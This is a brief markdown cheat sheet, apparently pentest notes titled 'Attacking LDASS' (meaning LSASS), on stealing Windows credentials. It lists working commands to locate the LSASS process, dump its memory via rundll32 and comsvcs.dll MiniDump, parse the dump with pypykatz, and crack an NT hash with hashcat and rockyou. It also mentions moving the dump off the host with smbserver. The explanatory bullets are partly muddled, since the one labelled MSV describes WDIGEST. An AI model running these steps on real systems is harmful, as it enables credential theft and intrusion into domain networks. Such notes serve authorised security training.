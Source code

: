 # Attacking LDASS

***

Find LDASS PID

```cmd
C:\Windows\system32> tasklist /svc
```

```powershell
PS C:\Windows\system32> Get-Process lsass
```

## Create LDASS dump

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

smbserver to transfer the file

## Extract credentials

```bash
pypykatz lsa minidump lsass.dmp 
```

* _MSV_: `WDIGEST` is an older authentication protocol enabled by default in `Windows XP` - `Windows 8` and `Windows Server 2003` - `Windows Server 2012`. LSASS caches credentials used by WDIGEST in clear-text. This means if we find ourselves targeting a Windows system with WDIGEST enabled, we will most likely see a password in clear-text. Modern Windows operating systems have WDIGEST disabled by default. Additionally, it is essential to note that Microsoft released a security update for systems affected by this issue with WDIGEST.
* _Kerberos_: Kerberos is a network authentication protocol used by Active Directory in Windows Domain environments. Domain user accounts are granted tickets upon authentication with Active Directory. This ticket is used to allow the user to access shared resources on the network that they have been granted access to without needing to type their credentials each time. LSASS `caches passwords`, `ekeys`, `tickets`, and `pins` associated with Kerberos. It is possible to extract these from LSASS process memory and use them to access other systems joined to the same domain.
* _DPAPI_: The Data Protection Application Programming Interface is a set of APIs in Windows operating systems used to encrypt and decrypt DPAPI data blobs on a per-user basis for Windows OS features and various third-party applications.

## Crack NT Hash

```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```
